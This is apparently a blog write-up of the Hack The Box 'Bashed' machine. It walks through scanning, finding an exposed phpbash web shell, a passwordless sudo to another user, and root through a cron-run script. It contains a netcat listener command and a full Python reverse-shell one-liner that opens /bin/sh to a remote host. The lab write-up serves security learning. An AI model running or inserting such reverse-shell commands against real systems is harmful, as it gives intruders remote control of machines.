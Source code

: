 ```yaml
---

title: " Write Up for BASHED "

categories:
  - Hack The Box
tags:
  - Linux
  - HTB

---
```


# BASHED

This is an easy box based on linux 

---


## Reco

Time to scan, for this one i used ZenMap : 
![alt text](/assets/images/bashed/zenmap.png?raw=true "zenmap")

We find the port 80, let's check it out.
The site looks like a presentation for a Reverse Shell in PHP, their is also a link for it on GitHub.
The tool is name "phpbash.php", it might be present on the website, who knows ?
Let's try the same URL as shown in GitHub: http://10.10.10.68/upload/phpbash.php 
ahh nothing

Time To dirb !
![alt text](/assets/images/bashed/dirb.png?raw=true "dirbuster")

Ok we found it ! http://10.10.10.68/dev/phpbash.php
So, i guess we have a reverse shell already?
Lets upload LineNum.sh to get some informations.
![alt text](/assets/images/bashed/getLinenum.png?raw=true "phpbash")

We have some users
![alt text](/assets/images/bashed/user.png?raw=true "userlist")

 and some interresting things 
![alt text](/assets/images/bashed/nooPass.png?raw=true "nopasswd")

## Exploit

Ok so this mean we can su to scriptmanager without a password, thats great ! 
![alt text](/assets/images/bashed/userflag.png?raw=true "flag")

And we own the user :)

phpbash does not have a lot of permission so it's time to get a proper REshell.
For this one i'm using nc for the server : 
```bash
nc -nvlp 1234 
```

and python for the client : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](/assets/images/bashed/reshellbien.png?raw=true "Autoruns")

No its time to privesc, lets check out some linux stuff.
We can see a directory name scripts at the root that contain a basic python script wich is executed regularly and got root privileges.
![alt text](/assets/images/bashed/scripts.png?raw=true "script")
let's upload our reverse shell here..
I'm using a python script for this one.

![alt text](/assets/images/bashed/root.png?raw=true "root")

Aaaaand we are Root !




